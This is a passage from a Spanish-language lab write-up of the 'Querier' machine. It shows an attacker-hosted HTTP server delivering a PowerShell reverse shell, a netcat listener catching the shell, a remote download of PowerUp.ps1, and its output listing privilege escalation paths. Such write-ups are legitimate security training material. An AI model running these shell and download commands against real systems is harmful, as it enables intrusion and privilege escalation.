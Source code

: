 Servidor con python:

```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.125 - - [23/Feb/2023 10:54:40] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
```

Listener de netcat:

```bash
nc -lvnp 443                 
listening on [any] 443 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.125] 49679
Windows PowerShell running as user mssql-svc on QUERIER
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>
```

### Privesc.

Para la escalada de privilegios voy a usar el script PowerUp.ps1 para enumerar la máquina. Lo primero será descargar el script

```Powershell
PS C:\Users\mssql-svc\Desktop> iwr -outf PowerUp.ps1 http://10.10.16.4/PowerUp.ps1
PS C:\Users\mssql-svc\Desktop>
```

Importamos el script:

```powershell
PS C:\Users\mssql-svc\Desktop> Import-Module .\PowerUp.ps1
```

Si lo ejecutamos para que haga todas las comprobaciones nos reporta lo siguiente.

```PowerShell
PS C:\Users\mssql-svc\Desktop> Invoke-AllChecks


Privilege   : SeImpersonatePrivilege
Attributes  : SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
TokenHandle : 3688
ProcessId   : 4904
Name        : 4904
Check       : Process Token Privileges

ServiceName   : UsoSvc
Path          : C:\Windows\system32\svchost.exe -k netsvcs -p
StartName     : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'UsoSvc'
CanRestart    : True
Name          : UsoSvc
Check         : Modifiable Services

ModifiablePath    : C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps
IdentityReference : QUERIER\mssql-svc
Permissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
%PATH%            : C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps
Name              : C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps
Check             : %PATH% .dll Hijacks
AbuseFunction     : Write-HijackDll -DllPath 'C:\Users\mssql svc\AppData\Local\Microsoft\WindowsApps\wlbsctrl.dll'

UnattendPath : C:\Windows\Panther\Unattend.xml
Name         : C:\Windows\Panther\Unattend.xml
Check        : Unattended Install Files
```